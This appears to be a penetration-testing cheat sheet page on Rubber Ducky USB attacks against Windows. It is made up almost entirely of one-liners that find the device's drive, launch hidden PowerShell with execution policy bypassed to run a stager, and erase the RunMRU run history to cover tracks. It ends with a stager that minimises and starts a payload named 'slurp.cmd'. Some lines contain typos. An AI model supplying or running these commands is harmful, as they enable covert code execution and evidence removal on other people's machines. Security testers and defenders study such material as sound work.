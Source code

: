 ```yaml
---
title: Rubber Ducky
category: Exploitation
order: 100
---
```


> **Find the Rubber Ducky’s drive letter** 

{% highlight bash %}
for /f %d in ('wmic volume get driveletter^, label^|findstr “DRIVENAME”'') do @set DK=%d 
{% endhighlight %}


> **Execute the Stager** 

{% highlight bash %}
powershell -NoP -NonI -W Hidden -Exec Bypass " $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DriveName' } | select name; cd $uP.name; .\d.cmd"
{% endhighlight %}

> **Clean up run history** 

{% highlight bash %}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue
{% endhighlight %}

> **Run the Program and Clean-up**

{% highlight bash %}
powershell -NoP -NonI -W Hidden -Exec Bypass "rp -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue; $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DN' } | select name; cd $uP.name; .\d.cmd"
//Note: Runtime max is 260 characters - use aliases to reduce
//Note: _ is Drive Name
{% endhighlight %}

{% highlight bash %}
//Second Version
powershell "$u=gwmi Win32_Volume|?($_Label -eq'_')|select name; cd $uname;.\d.cmd"
//65 Character Version
powershell".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
//Note: Runtime max is 260 characters - use aliases to reduce
//Note: DN is Drive Name
{% endhighlight %}

> **d.cmd: Stager - Executes Payload** 

{% highlight bash %}
@echo off
start /MIN slurp.cmd
@cls
@exit
{% endhighlight %}


